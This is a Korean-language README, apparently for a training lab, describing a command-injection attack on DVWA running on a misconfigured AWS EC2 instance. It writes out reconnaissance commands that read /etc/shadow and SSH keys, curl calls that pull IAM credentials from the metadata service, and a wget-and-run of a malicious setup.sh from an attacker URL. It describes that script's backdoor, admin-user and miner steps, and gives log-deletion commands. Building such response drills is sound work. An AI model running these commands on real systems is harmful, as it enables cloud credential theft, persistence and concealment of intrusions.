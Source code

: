 #  공격 시나리오: DVWA - Command Injection

## 개요

이 문서는 DVWA(Damn Vulnerable Web Application) 서버에서 **명령어 삽입 취약점(Command Injection)** 을 악용한 공격 시나리오를 설명합니다.  
공격 대상은 **ALB(Application Load Balancer) 뒤에 위치한 EC2 인스턴스**로, 최대한 많은 아티팩트를 수집하기 위한 실험 목적으로 다음과 같은 조건을 갖습니다:

- **웹 서버가 root 권한으로 실행 중**
- **EC2 인스턴스에 과도한 IAM 권한이 부여됨**
- **IMDSv1 (Instance Metadata Service v1)**


> 이 환경은 EC2 인스턴스에 최대 권한이 부여된 상태에서 원격 코드 실행(RCE) 및 권한 상승(LPE)공격에 의해 탈취된 상황을 가정한 실습 및 대응 훈련을 위한 구조입니다.


---

##  공격 시나리오

<img width="960" alt="스크린샷 2025-05-21 21 22 57" src="https://github.com/user-attachments/assets/37dae95f-29c2-4c6f-ba66-bc9b8ea4be9c" />

### Step 1: 취약점 발견

1. 공격자는 웹 애플리케이션의 입력 필터링이 제대로 이루어지지 않는 것을 발견하고, 명령어 삽입 취약점이 존재함을 확인합니다.
2. 취약한 파라미터를 통해 쉘 명령어를 삽입하고, 이를 통해 웹 서버의 **root 권한**을 획득합니다.

---

### Step 2: 정보 수집

공격자는 루트 쉘 권한을 확보한 이후, 다음과 같은 명령어를 통해 시스템 내부 정보를 수집하고 AWS 환경에 대한 접근을 시도합니다.

---

#### 시스템 정보 수집

```bash
uname -a               # 커널 정보
ifconfig -a            # 네트워크 인터페이스 정보
id                     # 현재 사용자 정보
cat /etc/passwd        # 계정 목록
netstat -rn            # 라우팅 테이블

find / -name .ssh       # SSH 키 파일 위치 탐색
# → GuardDuty 탐지됨: Execution:Runtime/SuspiciousCommand

cat /home/ec2-user/.ssh/authorized_keys  # SSH 공개키 확인
cat /etc/shadow          # 패스워드 해시 열람 시도
cat /etc/hosts           # 로컬 호스트 정보

# 기본 메타데이터 접근
curl http://169.254.169.254/
curl http://169.254.169.254/latest/
curl http://169.254.169.254/latest/meta-data

# IAM 정보 및 보안 자격 증명 확인
curl http://169.254.169.254/latest/meta-data/iam/info
curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```

###  Step 3: 악성 페이로드 배포

공격자는 루트 권한을 이용해 시스템에 악성 스크립트를 배포하고, AWS 리소스를 장악하기 위한 후속 작업을 수행합니다. 이 단계에서 공격자는 **클라우드 자원 침투**, **외부 C2 서버와의 통신**, **비트코인 채굴** 등의 악성 행위를 실행합니다.

---
악성 스크립트 다운 및 실행
```bash
wget {atcker_url}/setup.sh
chmod +x setup.sh
./setup.sh
```
___

### 🛠️ setup.sh 요약

- **웹 사용자 정보 탈취**  
  `web_user_log.py` 실행을 통해 웹 로그를 분석하고 로그인 시도, 세션 쿠키 등을 수집

- **네트워크 패킷 감청**  
  `pcap.py`를 통해 서버 내에서 발생하는 패킷을 실시간으로 스니핑하여 계정 정보 등 민감 데이터 탈취

- **지속적인 백도어 유지**  
  `zombie.py`를 백그라운드에서 실행해 명령 수신 및 원격 제어 가능 상태 유지

- **IAM 사용자 생성 및 AWS 루트 권한 확보**  
  `AdministratorAccess` 권한을 가진 IAM 사용자를 생성하여 AWS 콘솔 및 CLI에 영구 접근 가능

- **비트코인 채굴**  
  `cpuminer`를 설치 및 실행하여 EC2 인스턴스의 CPU 자원을 활용한 암호화폐 채굴 수행

---

### 🧹 Step 4: 증거 로그 삭제 및 은폐

공격자는 침해 행위 이후 자신이 남긴 흔적을 지우기 위해 다음과 같은 **로그 삭제 및 은폐 작업**을 수행합니다. 이는 향후 포렌식 분석을 어렵게 만들며, 침해 사실을 장기간 감출 수 있도록 돕습니다.

---

```bash
history -c && history -w
rm -f ~/.bash_history
unset HISTFILE
rm -f /var/log/messages
rm -f /var/log/secure
rm -f /var/log/auth.log
rm -f /var/log/wtmp
rm -f /var/log/btmp
rm -f /var/log/lastlog
rm -f /var/log/httpd/access_log
rm -f /var/log/httpd/error_log
rm -f setup.sh
rm -rf /tmp/*
```
